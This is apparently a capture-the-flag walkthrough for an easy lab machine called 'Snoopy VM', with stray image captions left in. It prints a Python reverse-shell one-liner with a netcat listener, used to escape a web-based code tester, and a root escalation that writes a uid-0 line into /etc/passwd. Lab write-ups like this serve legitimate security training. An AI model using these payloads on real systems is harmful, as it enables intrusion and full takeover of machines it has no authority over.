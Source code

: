 # Snoopy VM (Easy Difficulty) 

Author : Jerick 

# Walkthrough
Step 1: nmap -p (ip of infected) -A 

Step 2: Notice that there is ssh and webserver available. Visit the webpage of the ip address. 

Graphical user interface

Description automatically generated 

Step 3: Sign up is unavailable so click sign in. The login credentials can be found in a directory that is revealed during the nmap scan. (/zbir7mn240soxhicso2z) 

Step 4: Login credentials are found in this directory. Use this to login.  

Graphical user interface, text, application

Description automatically generated 

Step 5: This page seems to be a python code tester. You can leverage this to gain a shell on this system. This page boasts that the online IDE has some protections in place.  

Graphical user interface, text

Description automatically generated 

Step 6: Analyse the code given to us.  

Text

Description automatically generated 

It prevents us from importing modules. The webpage gives us a hint where you can use the exec() function instead.  

Step 7: Set up a netcat listener on kali and enter the following into the IDE 

Text

Description automatically generated 

Command:  

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("host ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]); 

nc -lvnp 4444  

Step 8: Now u have a shell as a http user. Since we have access to py user’s home directory, look inside it. 

Step 9: Execute the file typing.cc. This will give you the password for user py. 

Text

Description automatically generated 

Step 10: su as user py and cat user.txt to get the user flag. 

Step 11: To get the root flag, we would need to add a new entry into the /etc/passwd file to allow us to login as root user.  

Step 12: Create a new user and password and hash the password using openssl. Execute the backup file and enter the line of text in the same format as what u see in /etc/passwd.  

Commands:  

Openssl passwd -1 -salt (user) (passwd) 

Format to enter when executing backup: (user):(hashed passwd here):0:0:/root:/bin/bash 

Step 13: Su as the new user u created and you now have root access. 

Step 14: Retrieve the root flag 

Commands: 

Cd /root 

Cat root.txt 

